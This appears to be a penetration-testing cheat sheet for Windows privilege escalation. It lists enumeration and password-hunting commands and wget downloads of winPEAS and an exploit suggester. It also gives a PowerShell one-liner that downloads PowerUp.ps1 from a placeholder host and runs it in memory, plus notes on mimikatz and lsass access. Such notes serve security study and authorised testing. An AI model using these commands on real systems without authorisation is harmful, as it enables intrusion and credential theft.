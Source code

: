 **Resources:**

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

- [Sushant747 Guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)

- [Absolomb Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

**Enumeration:**

 System:
 
    systeminfo   
    wmic qfe get Caption,Description,HotFixID,InstalledOn  #Patch info   
    wmic logicaldisk get caption,description,providername  #Disk info
    
  User:
  
    whoami /priv #privileges for current user    
    whoami /groups    
    net user 
    net user <user> 

  Network: 
  
    ipconfig
    arp -a
    route print
    netstat -ano
    
  Password hunting:

     findstr /si password *.txt *.ini *.config
     
  AV: 
  
      sc query windefend
      sc queryex type= service
      
  Firewall:
  
      netsh advfirewall firewall dump
      netsh firewall show state
      netsh firewall show config

**Automated**

-------------------------------------------------------------------------------------

- [winPEAS .bat](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)

      wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat
      
 - [winPEAS .exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
      
-------------------------------------------------------------------------------------
    
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

Run powershell and run the following to download and run in memory

    iex(New-Object Net.WebClient).DownloadString('http://<ip>:<port>PowerUp.ps1')
    
-------------------------------------------------------------------------------------


- [Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

      wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && chmod +x windows-exploit-suggester.py && ./windows-exploit-suggester.py --update
      
      # This download and will create an .xlsx database
      
       CMD "systeminfo" saved to a file 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt 
      
      # Without 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2'

-------------------------------------------------------------------------------------


- Meterpreter exploit suggester module

      post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

**Kernel Exploits**


[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)


- [mimikatz](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Windows/Mimikatz.md)

  - Need process with permissions to be able to interact with the running lsass.exe process
    -  ran as NT AUTHORITY\SYSTEM
    -  Must be same arch as the lsass.exe running on the target

    
    
  - [Nishang repo](https://github.com/samratashok/nishang)
